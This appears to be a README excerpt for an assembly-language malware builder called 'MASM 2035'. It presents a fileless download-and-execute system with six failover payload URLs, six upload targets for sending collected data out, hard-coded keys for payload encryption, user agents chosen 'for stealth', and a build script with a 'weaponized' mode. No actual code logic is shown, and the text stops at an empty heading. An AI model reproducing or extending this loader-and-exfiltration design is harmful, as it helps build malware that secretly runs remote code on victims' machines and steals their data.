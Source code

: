 ### **Fileless Download/Execute System**

#### **6 Download Sources with Failover**
```asm
download_url1: 'https://cdn.example.com/update/payload1.bin'
download_url2: 'https://update.mirror.com/files/payload2.bin'
download_url3: 'https://secure.backup.net/dl/payload3.bin'
download_url4: 'https://content.delivery.org/bin/payload4.bin'
download_url5: 'https://files.repository.io/update/payload5.bin'
download_url6: 'https://download.service.com/data/payload6.bin'
```

#### **6 Upload Targets for Backup**
```asm
upload_url1: 'https://data.collector.com/upload/results'
upload_url2: 'https://backup.storage.net/submit/data'
upload_url3: 'https://secure.vault.org/store/backup'
upload_url4: 'https://files.repository.io/backup/store'
upload_url5: 'https://content.sync.com/upload/mirror'
upload_url6: 'https://data.archive.net/submit/backup'
```

#### **Cryptographic Loading**
```asm
; 4 Encryption Keys for Payload Protection
crypto_key1: 'masm2035key1'
crypto_key2: 'enhancedkey2' 
crypto_key3: 'stubkey3'
crypto_key4: 'advancedkey4'

; 3 User Agents for Stealth
useragent1: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
useragent2: 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:91.0) Gecko/20100101'
useragent3: 'Mozilla/5.0 (compatible; MSIE 11.0; Windows NT 10.0)'
```

## 🔧 **Build System Features**

### **Dual Build Capability**
```bash
# Build both versions (default)
build_dual_masm_2035.bat

# Build specific version
build_dual_masm_2035.bat benign      # Educational only
build_dual_masm_2035.bat weaponized  # Full capabilities
build_dual_masm_2035.bat both        # Both versions
```

### **Feature Comparison Matrix**
